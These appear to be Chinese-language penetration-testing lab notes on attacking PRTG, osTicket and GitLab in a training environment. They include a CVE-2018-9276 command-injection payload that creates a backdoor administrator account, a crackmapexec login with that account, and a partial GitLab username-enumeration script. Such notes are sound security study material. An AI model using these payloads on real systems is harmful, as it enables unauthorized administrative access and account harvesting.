 >[!info]
>PRTG < 18.2.39 : 這邊是用CVE-2018-9276 Command Injectiion
### CVE-2018-9276
在PRTG Network Monitor裡面的`Add new notification`點選`EXECUTE PROGRAM`，可以在`parameter`裡面做到Command Injection。
```
test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add
```
這樣就會把後門帳號加入系統，接下來就可以利用帳號密碼登入系統。
```shell-session
sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG! 
```
# osTicket - 列舉與攻擊手法
>[!本章重點]
>osTicket is an open-source support ticketing system. It can be compared to systems such as Jira, OTRS, Request Tracker, and Spiceworks. osTicket can integrate user inquiries from email, phone, and web-based forms into a web interface.
## osTicket 列舉手法
>[!warning ] 小節重點
>很少CVE可以利用的拉
- 利用EyeWitness可以發現有`OSTSESSID`這個cookie在，代表系統是osTicket
# Gitlab - 列舉與攻擊手法
>[!本章重點]
>Gitlab是跟Github差不多的系統，都是可以用來做版本控制。
## Gitlab 列舉手法
- 版本列舉只有在登入後，進入`/help`頁面才有版本號碼可以看。
- 沒啥手法，頂多看看 `/explore`裡面的project。
## Gitlab 攻擊手法
>[!warning ] 小節重點
>預設有錯誤上鎖制度，所以沒啥暴力破解方法，只能想辦法取得帳號然後打POC
### Username Enumeration
- [連結](https://github.com/dpgg101/GitLabUserEnum)
``` shell
python gitlab_userenum.py --url http://gitlab.inlanefreight.local:8081/ --userlist users.txt
```
- python script
``` python
#!/usr/bin/env python3

import requests
import argparse

def main():
    parser = argparse.ArgumentParser(description='GitLab User Enumeration')
    parser.add_argument('--url', '-u', type=str, required=True, help='The URL of the GitLab\'s instance')
    parser.add_argument('--wordlist', '-w', type=str, required=True, help='Path to the username wordlist')
    args = parser.parse_args()

    print('GitLab User Enumeration in python')

    with open(args.wordlist, 'r') as f:
        for line in f:
            username = line.strip()
            http_code = requests.head(f'{args.url}/{username}').status_code
            if http_code == 200:
```